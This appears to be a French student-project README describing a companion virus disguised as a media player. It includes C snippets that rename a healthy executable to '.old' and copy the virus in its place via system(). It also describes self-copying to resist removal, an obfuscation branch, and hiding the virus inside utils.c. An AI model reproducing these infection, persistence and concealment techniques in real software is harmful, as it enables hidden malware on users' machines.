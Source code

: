 ### Infection

Voici le déroulement de l'infection:
- déplace et renomme le fichier sain en lui ajoutant un .old en extension 
- Copie le virus à la place du fichier sain.

#### Déplacement

On construit la commande avec le chemin, le nom du fichier sain et sa nouvelle extension (.old)

```c
// mv /home/userl/calculatrice /home/userl/calculatrice.old
char cmd_move[1024];
sprintf(cmd_move, "mv %s %s%s", path, path, malware->defaultExtensionName);
system(cmd_move)

```

#### Copie


On construit la commande pour copier le virus à la place du fichier sain. Dans le cas d'une `primo-infection` c'est le MediaPlayer  qui va être utilisé.
Dans le cas d'un appel d'un compagnon, si il doit infecter de nouveau fichier il se copiera lui même. Cela permet d'empêcher à l'utilisateur de facilement supprimer son MediaPlayer et de perpétuer l'attaque malgré tout.

```c
char cmd_copy[1024];
sprintf(cmd_copy, "cp %s/%s %s", malware->defaultRepository, malware->malwareName, path);
system(cmd_copy);
```



## Pour aller plus loins

Pour aller plus loin nous avons continué le projet et avons fait des modifications.

- Miniaturisation du projet
- Création d'une branche origin/feature/obfuscation pour créer la version la plus crédible de notre virus, qui est une version assombrie


### Miniaturisation du projet

Pour finaliser notre projet nous avons compacté et fusionner les fichiers du média player ainsi que du virus.

> Avant
```bash
└── src
    ├── main.c
    ├── malwareBuilder.c
    ├── malwareBuilder.h
    ├── malwareUtils.c
    ├── malwareUtils.h
    ├── mediaplayer.c
    ├── mediaplayer.h
    ├── window.c
    └── window.h
```
> Après notre virus est confondu avec utils.c
